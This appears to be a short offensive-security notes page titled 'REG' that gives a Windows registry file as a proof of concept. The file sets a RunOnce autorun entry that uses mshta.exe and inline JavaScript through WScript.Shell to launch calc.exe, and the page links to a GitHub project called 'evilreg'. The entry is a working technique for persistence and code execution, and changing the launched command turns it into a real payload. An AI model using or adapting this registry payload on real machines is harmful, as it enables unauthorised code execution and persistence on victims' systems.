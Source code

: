 # ⭕ REG

```
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce]
"calcpoc"="C:\\Windows\\System32\\mshta.exe \"javascript:(new ActiveXObject(\"WScript.Shell\")).Run(\"calc.exe\")\""
```

{% embed url="https://github.com/8L4NK/evilreg" %}
